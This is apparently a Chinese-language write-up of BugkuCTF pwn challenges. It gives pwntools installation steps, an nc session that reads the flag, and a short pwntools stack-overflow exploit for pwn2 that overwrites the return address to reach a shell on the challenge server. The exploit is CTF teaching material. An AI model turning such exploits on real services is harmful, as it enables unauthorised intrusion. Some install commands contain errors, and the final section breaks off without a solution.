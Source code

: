 # BugkuCTF pwn1 pwn2 pwn4 pwn5 pwn3

python 安装piptools

**python3:**


然后实际操作步骤
    ```py
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo python3 -m pip install --upgrade pip
    ```

**然后去github下把源码下载下来**
    https://github.com/Gallopsled/pwntools/

下载好后进入源码目录

**尝试直接pip install python3-dev会失败，可以执行以下两条命令:**
 ```py
    sudo  apt-get install aptitude
    sudo aptitude install python3-dev

    sudo apt-get install python-setuptools python3-setuptools
    sudo python3 setup.py build
    sudo python3 setup.py install
 ```
**这里不要着急，一步一步来！**

接下来
```py
    sudo python3 -m pip install -r requirements.txt
```
这一步要有点耐心，可以使用豆瓣的源

这一步完成后，记得不要在当前路径下python3进入交互模式import pwn

这样会报错，因为当前目录下又pwn这个文件

切换到上一级目录测试

**一句话安装**
```py
python3 -m install pwn
```




**pwn1**
nc连接后直接就有执行权限
```
ls
cat flag
```

**pwn2**
下载文件放入ida

有一个有shell，我们只需要将程序跳转到这里

![](img/1.png)

选择main F5查看代码

![](img/2.png)

看到这个`s申请了0x30个字节，但是下边read了0x100字节`，就造成了`栈溢出`，我们只要将返回地址溢出为get_shell_的地址就可以得到flag。

```
from pwn import *

sh = remote("114.116.54.89", 10003)

print sh.recv()
payload="A" * 0x38 + p64(0x400751)
sh.sendline(payload)
sh.interactive()
```



## pwn

然后用IDA打开，有个危险函数 `read`,可以用来溢出。


`shift + F12` 查看有没有可疑字符串，然后在字符串上按`x`查看引用他的地方，找到了一个`system` 函数

























